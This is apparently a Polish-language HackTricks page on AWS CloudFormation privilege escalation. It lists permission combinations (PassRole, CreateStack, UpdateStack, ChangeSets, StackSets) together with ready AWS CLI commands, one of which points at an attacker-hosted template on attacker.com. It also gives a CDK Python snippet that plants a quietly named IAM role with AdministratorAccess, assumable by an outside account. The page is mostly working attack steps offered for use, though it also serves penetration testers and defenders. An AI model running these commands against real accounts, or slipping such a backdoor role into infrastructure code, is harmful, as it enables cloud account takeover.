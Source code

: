 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Aby uzyskać więcej informacji na temat cloudformation, sprawdź:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Napastnik z tymi uprawnieniami **może eskalować uprawnienia** poprzez stworzenie **stosu CloudFormation** z niestandardowym szablonem, hostowanym na ich serwerze, aby **wykonywać działania w ramach uprawnień określonej roli:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na poniższej stronie masz **przykład eksploatacji** z dodatkowym uprawnieniem **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Potencjalny wpływ:** Privesc do roli usługi cloudformation, która została określona.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

W tym przypadku możesz **nadużyć istniejącego stosu cloudformation**, aby go zaktualizować i eskalować uprawnienia, jak w poprzednim scenariuszu:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation określonej.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Jeśli masz to uprawnienie, ale **brak `iam:PassRole`**, nadal możesz **aktualizować stosy** używane i nadużywać **ról IAM, które już mają przypisane**. Sprawdź poprzednią sekcję w celu uzyskania przykładu wykorzystania (po prostu nie wskazuj żadnej roli w aktualizacji).

Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation już przypisanej.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napastnik z uprawnieniami do **przekazywania roli oraz tworzenia i wykonywania ChangeSet** może **tworzyć/aktualizować nowy stos cloudformation, nadużywając ról usługi cloudformation** tak jak w przypadku CreateStack lub UpdateStack.

Poniższe wykorzystanie jest **wariacją**[ **CreateStack**](#iam-passrole-cloudformation-createstack) używającą **uprawnień ChangeSet** do stworzenia stosu.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnień `ChangeSet`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do ról serwisowych cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

To jest jak poprzednia metoda, ale bez przekazywania **ról IAM**, więc możesz po prostu **nadużyć już przypisanych**, wystarczy zmodyfikować parametr:
```
--change-set-type UPDATE
```
**Potencjalny wpływ:** Privesc do roli usługi cloudformation, która jest już dołączona.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napastnik mógłby nadużyć tych uprawnień, aby tworzyć/aktualizować StackSets w celu nadużycia dowolnych ról cloudformation.

**Potencjalny wpływ:** Privesc do ról usługi cloudformation.

### `cloudformation:UpdateStackSet`

Napastnik mógłby nadużyć tego uprawnienia bez uprawnienia passRole, aby aktualizować StackSets w celu nadużycia dołączonych ról cloudformation.

**Potencjalny wpływ:** Privesc do dołączonych ról cloudformation.

## AWS CDK

AWS cdk to zestaw narzędzi umożliwiający użytkownikom definiowanie ich infrastruktury jako kodu w językach, które już znają, a także łatwe ponowne używanie sekcji. CDK następnie przekształca kod wysokiego poziomu (tj. python) w szablony Cloudformation (yaml lub json).

Aby używać CDK, użytkownik administracyjny musi najpierw uruchomić bootstrap konta, co tworzy kilka ról IAM, w tym *rolę exec*, która ma uprawnienia \*/\*. Te role mają strukturę nazewnictwa `cdk-<qualifier>-<name>-<account-id>-<region>`. Bootstrap musi być wykonany raz na region na konto.

Domyślnie użytkownicy CDK nie mają dostępu do listy ról potrzebnych do używania CDK, co oznacza, że będziesz musiał je określić ręcznie. Jeśli przejmiesz maszynę dewelopera lub jakiś węzeł CI/CD, te role mogą być przyjęte, aby przyznać sobie możliwość wdrażania szablonów CFN, używając roli `cfn-exec`, aby umożliwić CFN wdrażanie dowolnych zasobów, całkowicie kompromitując konto.

### Określenie nazw ról

Jeśli masz `cloudformation:DescribeStacks`, role są zdefiniowane w stosie o nazwie `CDKToolkit`, a możesz pobrać nazwy stamtąd.

Jeśli jesteś na maszynie, która była używana do budowy i wdrażania projektów CDK, możesz je pobrać z `cdk.out/manafest.json` w głównym katalogu projektów.

Możesz również dobrze zgadnąć, jakie one są. `qualifier` to ciąg dodawany do ról, umożliwiający jednoczesne wdrażanie wielu instancji bootstrap CDK, jednak domyślna wartość jest zakodowana na `hnb659fds`.
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### Dodawanie złośliwego kodu do źródła projektu

Jeśli możesz pisać do źródła projektu, ale nie możesz go samodzielnie wdrożyć (na przykład, deweloper wdraża kod za pomocą CI/CD, a nie lokalnej maszyny), nadal możesz skompromitować środowisko, dodając złośliwe zasoby do stosu. Poniższe dodaje rolę IAM, która może być przyjęta przez konto atakującego do projektu python CDK.
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## Odniesienia

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
